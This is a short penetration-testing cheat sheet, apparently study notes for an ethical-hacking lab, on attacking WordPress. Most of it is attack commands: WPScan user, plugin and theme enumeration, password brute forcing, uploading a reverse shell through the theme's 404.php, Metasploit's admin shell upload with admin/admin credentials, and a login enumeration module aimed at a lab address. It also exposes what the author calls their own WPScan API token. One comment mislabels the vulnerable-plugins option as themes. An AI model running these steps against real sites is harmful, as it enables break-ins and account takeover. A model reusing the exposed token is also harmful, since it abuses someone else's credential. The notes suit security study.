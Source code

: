 # 🔍 WPScan

```bash
wpscan -h #List WPscan Parameters
wpscan --update #Update WPscan

#Enumerate WordPress using WPscan

wpscan --url http://<TARGET_IP> -e t #All Themes Installed

wpscan --url http://<TARGET_IP> -e vt #Vulnerable Themes Installed

wpscan --url http://<TARGET_IP> -e p #All Plugins Installed

wpscan --url http://<TARGET_IP> -e vp #Vulnerable Themes Installed

wpscan --url http://<TARGET_IP> -e u #WordPress Users

wpscan --url http://<TARGET_IP> --disable-tls-checks #Disable SSL check

wpscan --url http://<TARGET_IP>  --passwords path-to-wordlist --username username #Brute Force WordPress Passwords

#Upload Reverse Shell to WordPress
http://<IP>/wordpress/wp-content/themes/twentyfifteen/404.php

#Upload using Metasploit
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
msf exploit(wp_admin_shell_upload) > set PASSWORD admin
msf exploit(wp_admin_shell_upload) > set targeturi /wordpress
msf exploit(wp_admin_shell_upload) > exploit
```

<pre class="language-bash"><code class="lang-bash"><strong>#User Enumeration
</strong><strong>wpscan --url https://example/ --enumerate u
</strong>
#Bruteforce
wpscan --url https://example/ --passwords wordlist.txt --usernames samson
</code></pre>

### **Enumerate and hack a web app using wpscan and metasploit**

### WPScan
---
```bash
wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads -url http://10.10.10.16:8080/CEH --plugins-detection aggressive --enumerate u
```
* --enumerate u: Specify the enumeration of users
* API Token: Register at [https://wpscan.com/register](https://wpscan.com/register)
* Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads\

### Metasploit
---
* service postgresql start
* msfconsole
* use auxiliary/scanner/http/wordpress\_login\_enum
* show options
* set PASS\_FILE password.txt
* set RHOST 10.10.10.16
* set RPORT 8080
* set TARGETURI [http://10.10.10.16:8080/CEH](http://10.10.10.16:8080/CEH)
* set USERNAME admin
* run
* Find the credential
